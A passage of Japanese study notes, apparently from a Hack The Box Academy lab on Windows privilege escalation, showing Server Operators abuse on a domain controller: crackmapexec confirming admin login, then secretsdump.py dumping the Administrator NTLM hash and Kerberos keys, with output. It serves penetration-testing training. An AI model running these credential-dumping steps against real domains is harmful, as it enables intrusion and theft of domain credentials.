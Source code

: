 ```cmd-session
server_adm
The command completed successfully.
```

ドメインコントローラーでのローカル管理者アクセスの確認
- これにより、私たちはドメインコントローラーに対する完全な制御権を獲得した
- crackmapexec のようなツールを使って、追加したアカウント (server_adm) でDCにローカル管理者としてログインできるか確認できる
```shell-session
snowyowl644@htb[/htb]$ crackmapexec smb 10.129.43.9 -u server_adm -p 'HTB_@cademy_stdnt!'

SMB         10.129.43.9     445    WINLPE-DC01      [*] Windows 10.0 Build 17763 (name:WINLPE-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         10.129.43.9     445    WINLPE-DC01      [+] INLANEFREIGHT.LOCAL\server_adm:HTB_@cademy_stdnt! (Pwn3d!)
```

ドメインコントローラーからのNTLMパスワードハッシュの取得
- ローカル管理者権限があれば、secretsdump.py のようなツールを使用してNTDS.ditから認証情報を取得できる
```shell-session
snowyowl644@htb[/htb]$ secretsdump.py server_adm@10.129.43.9 -just-dc-user administrator

Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:5db9c9ada113804443a8aeb64f500cd3e9670348719ce1436bcc95d1d93dad43
Administrator:aes128-cts-hmac-sha1-96:94c300d0e47775b407f2496a5cca1a0a
Administrator:des-cbc-md5:d60dfbbf20548938
[*] Cleaning up...
```
- 攻撃者はServer Operators権限を使って、SYSTEM権限で動くサービスの「起動時に実行するプログラム」の設定を書き換える

